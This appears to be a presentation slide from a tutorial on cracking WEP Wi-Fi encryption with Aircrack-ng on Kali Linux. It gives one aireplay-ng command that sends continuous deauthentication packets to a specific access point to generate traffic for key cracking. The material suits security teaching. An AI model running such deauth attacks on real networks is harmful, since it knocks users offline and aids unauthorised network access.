

Cracking WEP with
Aircrack-ng and Kali Linux
If there are only few packets coming then you can try to deauth to generate more data packets with following command:
aireplay-ng -0 0 -a 0C:D2:B5:03:43:68 mon0